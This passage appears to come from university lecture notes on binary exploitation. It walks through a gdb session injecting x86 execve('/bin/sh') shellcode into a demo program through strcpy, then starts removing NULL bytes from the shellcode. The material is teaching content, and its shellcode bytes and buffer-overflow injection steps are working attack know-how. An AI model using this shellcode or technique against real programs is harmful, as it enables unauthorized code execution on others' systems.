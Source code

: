 ``` {.example}
End of assembler dump.
(gdb) br *0x0804844d
Breakpoint 1 at 0x804844d
(gdb) r $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
Starting program: /home/user/git/si485-binary-exploits/lec/09/demo/dummy_exploit $(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")

Breakpoint 1, 0x0804844d in main ()
(gdb) x/10i $esp+0x10
   0xbffff250:  jmp    0xbffff252
   0xbffff252:  add    BYTE PTR [eax],al
   0xbffff254:  add    BYTE PTR [eax],al
   0xbffff256:  add    BYTE PTR [eax],al
   0xbffff258:  add    BYTE PTR [eax],al
   0xbffff25a:  add    BYTE PTR [eax],al
   0xbffff25c:  add    BYTE PTR [eax],al
   0xbffff25e:  add    BYTE PTR [eax],al
   0xbffff260:  add    BYTE PTR [eax],al
   0xbffff262:  add    BYTE PTR [eax],al

```

In the above gdb execution, first we set a break point right before the
call so that we can inspect the address that will be called,
`$esp+0x10`. Unfortunately, if we look closely, we see that the jmp is
there, which is our first command, but then we are in trouble. There are
a bunch of nonsense commands.

What happened? Lets look more closely at our command line argument:

``` {.example}
$(printf "\xeb\x20\x5e\x6a\x00\x56\xba\x00\x00\x00\x00\x89\xe1\x89\xf3\xb8\x0b\x00\x00\x00\xcd\x80\xbb\x00\x00\x00\x00\xb8\x01\x00\x00\x00\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68")
```

You see that 5 bytes in, there is a NULL (\\x00) which means the
`strcpy()` command will stop copying there.

\*We need to remove NULL bytes!\*

Removing NULL bytes
-------------------

To remove NULL bytes, we need to get creative. Let's look at the objdump
of our previous version of the shell code to get a sense of where we are
at.

``` {.example}
user@si485H-base:demo$ objdump -d -M intel execve_calljmp

execve_calljmp:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:   eb 20                   jmp    8048082 <callback>

08048062 <dowork>:
 8048062:   5e                      pop    esi
 8048063:   6a 00                   push   0x0
 8048065:   56                      push   esi
 8048066:   ba 00 00 00 00          mov    edx,0x0
 804806b:   89 e1                   mov    ecx,esp
```